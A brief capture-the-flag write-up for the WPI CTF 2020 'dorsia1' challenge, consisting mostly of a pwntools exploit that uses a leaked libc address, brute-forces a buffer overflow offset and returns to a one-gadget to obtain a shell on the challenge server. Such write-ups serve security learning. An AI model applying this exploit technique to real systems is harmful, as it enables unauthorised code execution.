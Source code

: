 # dorsia1 100pts (119 solves) #

![TASK](https://imgur.com/UYebsbW.png)

we are given the source code , it's a buffer overflow but we don't know the offset , i leaked the libc (using the system address) and used a one gadget from the libc to return to it

![CODE](https://imgur.com/sj0QL9v.png)

Here is my full exploit , i'll share a detailed writeup about dorsia1 and dorsia3 in the next few days on my personal website so stay tuned (My twitter @BelkahlaAhmed1)

```python
from pwn import *
for i in range(69,90):
        p=remote("dorsia1.wpictf.xyz",31337)
#p=process("./pwn")
        leak=p.recvline()
        SYSTEM=int(leak,16)-765772
        BASE=SYSTEM-0x0004f440
        log.info("System address: "+hex(SYSTEM))
        log.info("Base: "+hex(BASE))
        one_gadget=BASE+0x0004f322
        log.info("One gadget: "+hex(one_gadget))
        payload="\x00"*i
        payload+=p64(one_gadget)
        p.sendline(payload)
        p.sendline("id")
        try:
                data=p.recvline()
                if "gid" in data: 
                        log.info("Fouuund!")
                        p.interactive()
        except Exception:
                continue
```
**Note:** The source code link is [HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/WPI%20CTF%202020/dorsia1/task.c)

If you have any questions you can contact me on twitter @BelkahlaAHmed1
